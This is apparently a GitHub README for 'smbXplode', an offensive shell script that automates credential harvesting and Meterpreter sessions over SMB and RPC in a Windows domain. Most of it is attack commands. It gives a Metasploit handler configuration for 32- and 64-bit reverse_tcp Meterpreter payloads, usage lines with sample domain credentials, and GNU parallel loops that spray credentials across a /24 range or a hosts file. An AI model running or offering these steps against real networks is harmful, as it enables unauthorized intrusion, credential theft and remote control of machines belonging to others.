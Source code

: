 # smbXplode

What do do when Metasploit psexec module doesn't work for no good reason ? 

This script is used to automate the process of harvesting credentials and getting meterpreter sessions throught the smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low previledge creds that you want to try them agains the whole range and try to escalate your priviledge later on. 

You can always re-adapt msfcommands.rc to automate the metasploit commands that you wanna run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. Unless you want to use the winexe command (which you can find commented in the script).

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
```
./smbXplode.sh domain username password hostIP
```

example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

example 
```
running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```

